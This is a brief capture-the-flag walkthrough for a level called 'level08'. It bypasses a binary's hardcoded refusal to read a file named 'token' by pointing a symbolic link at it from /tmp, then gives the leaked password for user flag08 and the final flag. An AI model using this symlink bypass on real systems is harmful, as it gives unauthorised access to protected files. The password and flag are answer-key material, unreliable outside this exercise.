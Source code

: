 # level08

We're presented with an executable `level08` and a `token` file we can't read.

We run `./level08` and get :

```
./level08 [file to read]
```

We try `./level08 token` :

```
You may not access 'token'
```

We run `strings ./level08`. Along with the messages above, we see a string that reads `token`. It's likely that whoever wrote the program hardcoded it to prevent any file named "token" from being read.

We can circumvent this issue with a symbolic link. We run :

```
ln -sf /home/user/level08/token /tmp/link
./level08 /tmp/link
```

The program is tricked, and outputs the contents of `token`. It's not actually the level's flag, but the password for user `flag08` :

```
quif5eloekouj29ke0vouxean
```

## The flag

We run `su flag08` and get our flag with getflag :

```
25749xKZ8L7DkSCwJkT9dyv6f
```
